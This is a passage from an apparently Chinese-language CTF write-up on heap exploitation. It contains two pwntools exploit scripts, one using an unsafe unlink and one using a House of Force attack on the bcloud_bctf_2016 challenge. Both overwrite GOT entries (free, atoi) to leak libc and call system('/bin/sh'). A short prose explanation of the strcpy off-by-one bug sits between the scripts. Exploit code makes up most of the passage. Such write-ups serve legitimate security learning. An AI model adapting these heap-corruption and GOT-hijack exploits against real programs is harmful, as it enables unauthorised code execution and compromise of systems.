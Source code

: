 ```python
add(3) # brk()
delete(1)
add(1) # small <-> huge
add(2)

small = 0x6020b0
fd = small-0x18
bk = small-0x10
payload = flat(0,0x21,fd,bk,0x20,0x90,'a'*0x80)
payload += flat(0,0x21,'a'*0x10,0,0x21)
edit(3,payload)
delete(2)

# ?,big,huge,small,big_flag,huge_flag,small_flag
payload = flat(0,elf.got['atoi'],elf.got['puts'],elf.got['free']) + p32(1)*3
edit(1,payload)
edit(1,p64(elf.plt['puts'])) # free -> puts
delete(2)
atoi = uu64(r(6))
system,binsh = ret2libc(atoi,'atoi')
edit(1,p64(system))
add(2,'/bin/sh\x00')
delete(2)
```

### bcloud_bctf_2016

在读入名字和读入 Org 以及 Host 时，均存在同样的 `strcpy` 漏洞，前者导致泄露堆地址，而后者允许我们 off-by-one 修改 top chunk 的大小，从而实现 House of Force。通过 gdb 调试得到 `top_chunk = heap + 0xd0`，那么构造的 `evil_size` 就是我们想分配到的 `note_len` 数组地址减去 header 的 0x8，减去 `old_top_chunk` 地址，再减去 12，这是因为已经分配了三个堆块，在程序中每个堆块额外分配了 4B。最后从 `note_len` 覆盖到 `note` 数组，劫持 `free` 到 `printf` 泄露 libc，再劫持 `atoi` 到 `system`。

```python
def add(len,content='a'):
    sla('>>\n','1')
    sla(':\n',str(len))
    sa(':\n',content)
def delete(index):
    sla('>>\n','4')
    sla(':\n',str(index))
def edit(index,content):
    sla('>>\n','3')
    sla(':\n',str(index))
    sla(':\n',content)

sa('name:\n','a'*0x40)
ru('a'*0x40)
heap = uu32(r(4))
leak('heap',heap)

sa('Org:\n','a'*0x40)
sla('Host:\n',p32(0xffffffff))

note_len = 0x804b0a0
note = 0x804b120
top_chunk = heap + 0xd0
evil_size = note_len-0x8-top_chunk-0xc # gdb
add(evil_size,'')
payload = flat((note-note_len)*'a',elf.got['atoi'],elf.got['free'],elf.got['atoi'])
add(len(payload),payload)
edit(1,p32(elf.plt['printf']))
delete(0) # printf(atoi.got)
atoi = uu32(r(4))
system,binsh = ret2libc(atoi,'atoi')
```